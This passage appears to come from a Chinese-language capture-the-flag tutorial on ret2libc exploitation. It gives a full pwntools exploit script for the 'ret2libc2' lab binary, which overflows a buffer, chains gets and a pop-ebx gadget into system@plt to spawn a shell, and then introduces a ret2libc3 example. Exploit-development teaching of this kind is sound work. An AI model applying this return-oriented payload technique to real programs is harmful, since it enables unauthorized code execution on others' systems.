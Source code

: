 第二种是第一种的复杂写法，可以参考上面的多次调用函数的结构，用完即扔

[![](assets/1701612384-2a0d252729220163dbd38a911f44d95d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204336-90dfa2d0-167a-1.png)

exp:

```plain
from pwn import *

io = process("./ret2libc2")
elf = ELF("./ret2libc2")
sys_plt_addr = 0x8048490
buf2_addr=0x804a080
gets_addr=0x8048460
pop_ebx_ret_addr=0x0804843d #这里是利用ROPgadget找了一下只有pop ebx;ret;

payload=b'A'*112 + p32(gets_addr)+p32(pop_ebx_ret_addr)+p32(buf2_addr)+p32(sys_plt_addr)+b'b'*4+p32(buf2_addr)

io.sendline(payload)
io.interactive()
```

例题三:**ret2libc3**

[![](assets/1701612384-101d70042a5578d29a8156eff7ea1204.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204341-93901884-167a-1.png)

